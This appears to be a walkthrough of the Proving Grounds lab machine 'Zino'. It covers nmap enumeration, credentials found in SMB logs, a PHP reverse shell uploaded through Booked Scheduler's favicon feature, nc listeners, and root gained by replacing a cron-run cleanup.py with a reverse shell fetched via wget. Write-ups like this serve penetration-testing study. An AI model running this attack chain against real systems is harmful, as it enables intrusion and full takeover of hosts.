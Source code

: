 ```yaml
---
layout: post
title: PG | Zino
subtitle: Good introduction to basic fundamentals.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 14:49 EDT
Nmap scan report for 192.168.182.64
Host is up (0.015s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b2:66:75:50:1b:18:f5:e9:9f:db:2c:d4:e3:95:7a:44 (RSA)
|   256 91:2d:26:f1:ba:af:d1:8b:69:8f:81:4a:32:af:9c:77 (ECDSA)
|_  256 ec:6f:df:8b:ce:19:13:8a:52:57:3e:72:a3:14:6f:40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open   !~-�U      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=10/29%Time=653EA9A5%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.185'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.17 seconds
~~~

## SMB (TCP/139, 445)

SMB allows NULL session authentication and revealed a share named 'zino' which looks like a home directory of a user name zino
~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ smbclient -N -L //192.168.182.64

        Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP 
~~~

![Zino](/assets/img/ZinoPG(1).png)

I downloaded all files using SMBMap and auth.log revealed credentials for a user peter:chauthtok

![Zino](/assets/img/ZinoPG(2).png)

I attemped to connect to the target via SSH using the peter:peter credentials but it failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ ssh peter@192.168.182.64                           
The authenticity of host '192.168.182.64 (192.168.182.64)' can't be established.
ED25519 key fingerprint is SHA256:WSNy24QYHepwi1q+CCZFt8/GTaVsrE60rmRaacEdSKE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.64' (ED25519) to the list of known hosts.
peter@192.168.182.64's password: 
Permission denied, please try again.
~~~

The misc.log file revealed credentials for a PHP session admin:adminadmin

![Zino](/assets/img/ZinoPG(3).png)

## HTTP (TCP/8003)

The web server on port 8003 is hosting a Booked Scheduler software, I entered the credentials found via SMB admin:adminadmin which granted me access

![Zino](/assets/img/ZinoPG(4).png)

I enumerated the website and found an upload parameter favicon.ico I was able to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to and then navigate to and execute the reverse shell via /booked/Web/custom-favicon.php

![Zino](/assets/img/ZinoPG(5).png)

I started my netcat listener

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ nc -nvlp 21                                       
listening on [any] 21 ...
~~~

Executed the reverse shell

~~~shell
http://192.168.182.64:8003/booked/Web/custom-favicon.php
~~~

And recieved my initial foothold!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ nc -nvlp 21                                       
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.64] 39390
Linux zino 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
 16:08:14 up  1:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

# Privilege Escalation

I started Privilege Escalation enumeration by running linpeas and identified our user had write permissions over a file named cleanup.py that is run by root as a cronjob that runs every 3 minutes

![Zino](/assets/img/ZinoPG(6).png)

I created my own cleanup.py and included a python reverse shell

![Zino](/assets/img/ZinoPG(7).png)

I transferred the file to the target and replacing the existing /var/www/booked/cleanup.py

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

$ cd /var/www/html/booked
$ wget http://192.168.45.185:139/cleanup.py
--2023-10-29 16:26:35--  http://192.168.45.185:139/cleanup.py
Connecting to 192.168.45.185:139... connected.
HTTP request sent, awaiting response... 200 OK
Length: 236 [text/x-python]
Saving to: 'cleanup.py.1'

     0K                                                       100% 82.1M=0s

2023-10-29 16:26:35 (82.1 MB/s) - 'cleanup.py.1' saved [236/236]
$ mv cleanup.py.1 cleanup.py
~~~

I then started my netcat listener on port 22

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 22               
listening on [any] 22 ...
~~~

Once the cronjob executed the reverse shell in cleanup.py I recieved a root shell!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 22               
listening on [any] 22 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.64] 60766
# whoami
whoami
root
# 
~~~
